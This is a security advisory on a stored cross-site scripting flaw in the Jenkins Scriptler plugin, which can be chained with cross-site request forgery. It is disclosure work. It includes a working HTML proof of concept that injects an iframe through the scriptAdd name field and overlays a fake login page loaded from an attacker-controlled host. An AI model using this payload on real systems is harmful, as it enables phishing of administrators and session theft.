

A Cross-Site Scripting vulnerability was found in the Scriptler Jenkins plugin. This vulnerability allows an attacker to perform a wide variety of actions, such as stealing Administrators' session tokens, or performing arbitrary actions on their behalf. In order to exploit this issue, an authenticated attacker has to inject arbitrary HTML in the description of a Scriptler script and wait for an admin to visit the script overview page. By combining this vulnerability with the reported Cross-Site Request Forgery vulnerability it is possible for an unauthenticated attacker to exploit this issue by luring an authenticated administrator into visiting a specially crafted page.
Jenkins Security Advisory 2017-04-10
This issue was successfully tested on Scriptler version 2.9.
There is currently no fix available
The Scriptler Jenkins plugin allows users to store/edit Groovy scripts and execute them on any of the slaves/nodes. Besides administering scripts, Scriptler also provides a way to share scripts between users via hosted script catalogs on the internet.
A persistent Cross-Site Scripting vulnerability exists in Scriptler. Administrators are able to submit arbitrary HTML as description of Scriptler scripts that are shown verbatim to other administrators. It is possible to add malicious code in the name field of the scriptAdd function of Scriptler. The malicious code is presented, as part of a newly added Scriptler script, on the overview page of Scriptler. The overview page does not properly HTML encode the value of the name field, allowing for Cross-Site Scripting attacks. This issue can also be exploited using Cross-Site Request Forgery, making it possible for an unauthenticated attacker to inject arbitrary HTML/scripting code by luring an authenticated administrator into visiting a specially crafted page.
An authenticated user of Jenkins with rights to manage the Scriptler scripts or an anonymous attacker that exploits Cross-Site Request Forgery can inject HTML code within the name field while adding a new script in Scriptler. The proof of concept below will inject an iframe pointing to a fake login page that will be rendered over the overview page.
<html>
<body>
<form action="http://192.168.50.90:49001/scriptler/scriptAdd">
<input type="hidden" name="id" value="asd" />
<input type="hidden" name="name"
value="<iframe src="http://192.168.1.132:1337/foo.html" style="display:block;background:#FFFFFF;border:none;height:100vh;width:100vw; z-index:999999;position:fixed; top:0px; left:0px; bottom:0px; right:0px;"></iframe>" />
<input type="hidden" name="comment" value="asd" />
<input type="hidden" name="script" value="as" />
<input type="hidden" name="json" value="{"id": "asd", "name": "asd", "comment": "asd", "nonAdministerUsing": false, "onlyMaster": false, "script": "asd", "": "asd"}" />
<input type="submit" name="Submit" value="Submit" />
</form>
</body>
</html>
When the attack is successful, the fake login page will be presented to any administrator visiting the Scriptler overview page.

Figure 1: exploiting Cross-Site Scripting to show a fake login page
I originally wrote this article for Securify B.V. Read more.